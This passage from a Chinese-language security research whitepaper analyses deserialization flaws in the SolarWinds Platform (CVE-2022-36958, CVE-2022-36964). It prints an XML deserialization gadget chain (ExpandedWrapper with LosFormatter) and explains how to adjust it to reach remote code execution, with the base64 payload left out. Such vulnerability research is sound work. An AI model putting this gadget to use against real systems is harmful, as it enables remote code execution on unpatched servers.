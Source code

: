 ```plain
<ExpandedWrapperOfLosFormatterObjectDataProvider xmlns=''>
    <ExpandedElement/>
    <ProjectedProperty0>
        <MethodName>Deserialize</MethodName>
        <MethodParameters>
            <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">base64 payload
removed for clarity</anyType>
        </MethodParameters>
        <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>
    </ProjectedProperty0>
</ExpandedWrapperOfLosFormatterObjectDataProvider>
```

代码段 17 CVE-2022-36958 -传递给 XmlSerializer.Deserialize 方法的小工具（删除第一个标签后）

我们仍然存在一个重大问题。

当把原始的 `ysoserial.net` 小工具和我们当前的小工具进行比较时，可以发现一个很大的区别：

-   原始的小工具在根标签中定义了两个命名空间：xsi 和 xsd。
-   当前的小工具只包含一个空的 xmlns 属性。

`ObjectInstance` 标签依赖于 xsi 命名空间。因此，反序列化将失败。

幸运的是，命名空间不必专门在根标签中定义。因此，我们可以通过在 `ProjectedProperty0` 标签中定义两个命名空间来修复我们的小工具。最终的小工具如下：

```plain
<ExpandedElement/>
<ProjectedProperty0 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema">
    <MethodName>Deserialize</MethodName>
    <MethodParameters>
        <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">base64 payload
removed for clarity</anyType>
    </MethodParameters>
    <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>
</ProjectedProperty0>
```

代码段 18 CVE-2022-36958 - final deserialization gadget

这样，我们就可以实现第三个 RCE，完全控制目标反序列化类型。

#### 1.4 SolarWinds 平台 – CVE-2022-36964

从技术上讲，这个问题与 CVE-2022-36958 相同。然而，它存在于一个共享相同 ReadXml 方法实现的不同类中。在这种情况下，受影响的类是 `SolarWinds.InformationService.Contract2.PropertyBag`。

`TestAlertingAction SWIS` 动词接受这种类型的参数，因此可以通过 API 解决此问题。

我已经在 CVE-2021-31474 中使用了相同的类进行了 `Json.NET` 反序列化的滥用，随后我意识到这个类也可以以完全不同的方式被滥用。

#### 1.5 SolarWinds 平台 – 已实施的缓解措施

这篇白皮书的主要研究思想之一 —— 在产品代码库中查找反序列化小工具。首先，让我们验证两个基于 `Json.NET` 反序列化漏洞的已实施缓解措施：
